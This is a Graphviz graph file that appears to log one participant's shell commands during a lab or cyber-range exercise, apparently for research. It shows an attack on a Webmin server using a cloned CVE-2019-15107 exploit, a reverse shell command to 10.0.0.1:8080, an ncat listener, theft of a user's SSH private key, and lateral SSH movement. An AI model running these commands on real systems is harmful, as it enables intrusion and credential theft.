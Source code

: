 // creating graph for user: 66
digraph {
	node [shape=box]
	0 [label="ifconfig U"]
	1 [label="nmao U"]
	2 [label="nmap U"]
	3 [label="nmap U"]
	4 [label="ifconfig U"]
	5 [label="nmap -h A0 "]
	6 [label="curl U"]
	7 [label="ifconfig U"]
	8 [label="git clone github.com/jas502n/CVE-2019-15107 U"]
	9 [label="git clone https://github.com/jas502n/CVE-2019-15107 U"]
	10 [label="python CVE_2019_15107.py https://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' U"]
	11 [label="ls U"]
	12 [label="ls -la U"]
	13 [label="drwx------  3 root root  4096 Apr  7 11:39 .gnupg U"]
	14 [label="drwxr-xr-x  3 root root  4096 Jul 15 09:27 .local U"]
	15 [label="drwxr-xr-x  2 root root  4096 Jul 15 09:27 Music U"]
	16 [label="drwxr-xr-x  2 root root  4096 Jul 15 09:27 Pictures U"]
	17 [label="git clone https://github.com/jas502n/CVE-2019-15107 U"]
	18 [label="cd U"]
	19 [label="ls U"]
	20 [label="cd CVE-2019-15107/ U"]
	21 [label="ls U"]
	22 [label="python CVE_2019_15107.py https://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' U"]
	23 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' U"]
	24 [label="ncat -l 8080 U"]
	25 [label="sudo apt install ncat U"]
	26 [label="ncat -l 8080 U"]
	27 [label="ncat -i 8080 U"]
	28 [label="ncat -l 8080 U"]
	29 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' U"]
	30 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'id' U"]
	31 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat ./.bash_history' U"]
	32 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/eva/.bash_history' U"]
	33 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/bob/.bash_history' U"]
	34 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/debian/.bash_history' U"]
	35 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls home/debian/' U"]
	36 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/debian/' U"]
	37 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la' U"]
	38 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /home ; ls' U"]
	39 [label="module.info.pt_BR.UTF-8 U"]
	40 [label="module.info.ru.UTF-8 U"]
	41 [label="module.info.ru_RU U"]
	42 [label="module.info.ru_RU.UTF-8 U"]
	43 [label="module.info.ru_SU U"]
	44 [label="module.info.sk U"]
	45 [label="module.info.sk.UTF-8 U"]
	46 [label="module.info.sv U"]
	47 [label="module.info.sv.UTF-8 U"]
	48 [label="module.info.tr U"]
	49 [label="module.info.zh_CN U"]
	50 [label="module.info.zh_TW.Big5 U"]
	51 [label="negativeacl U"]
	52 [label="openssl.cnf U"]
	53 [label="postinstall.pl U"]
	54 [label="save_acl.cgi U"]
	55 [label="save_group.cgi U"]
	56 [label="save_pass.cgi U"]
	57 [label="save_sql.cgi U"]
	58 [label="save_sync.cgi U"]
	59 [label="save_twofactor.cgi U"]
	60 [label="save_unix.cgi U"]
	61 [label="save_user.cgi U"]
	62 [label="schema.cgi U"]
	63 [label="switch.cgi U"]
	64 [label="system_info.pl U"]
	65 [label="twofactor.pl U"]
	66 [label="twofactor_form.cgi U"]
	67 [label="useradmin_update.pl U"]
	68 [label="webmin.schema U"]
	69 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /home ; ls -la' U"]
	70 [label="rwxr-xr-x   6 root bin 12288 Jul  4  2019 . U"]
	71 [label="drwxr-xr-x 132 root bin 12288 Jul  4  2019 .. U"]
	72 [label="drwxr-xr-x   3 root bin  4096 Jul  4  2019 Authen-SolarisRBAC-0.1 U"]
	73 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd / ; ls -la' U"]
	74 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' U"]
	75 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/alice' U"]
	76 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/alice' U"]
	77 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/debian' U"]
	78 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve' U"]
	79 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' U"]
	80 [label="ervices U"]
	81 [label="echo '81.2.195.254' >> ~/top-secret/too_dangerous.txt U"]
	82 [label="2.195.254 U"]
	83 [label="cat /etc/services U"]
	84 [label="less /etc/services U"]
	85 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/bob/.bash_history' U"]
	86 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/bob' U"]
	87 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' U"]
	88 [label="ssh 10.1.18.22 U"]
	89 [label="ssh 10.1.17.4 U"]
	90 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ssh eve@10.1.17.4' U"]
	91 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh' U"]
	92 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/' U"]
	93 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh' U"]
	94 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' U"]
	95 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/' U"]
	96 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/bob' U"]
	97 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve' U"]
	98 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve/.ssh/' U"]
	99 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa' U"]
	100 [label="touch id_rsa U"]
	101 [label="nano id_rsa U"]
	102 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa.pub' U"]
	103 [label="touch id_rsa.pub U"]
	104 [label="nano id_rsa.pub U"]
	105 [label="ssh eve@10.1.17.4 U"]
	106 [label="cd .. U"]
	107 [label="ls U"]
	108 [label="cd .ssh U"]
	109 [label="ls U"]
	110 [label="ls -la U"]
	111 [label="chmod 600 id_rsa U"]
	112 [label="ls -la U"]
	113 [label="ssh eve@10.1.17.4 U"]
	114 [label="gpg2john id_rsa U"]
	115 [label="scp -r * eve@10.1.17.4:/home/eve/ U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	rankdir=LR
}
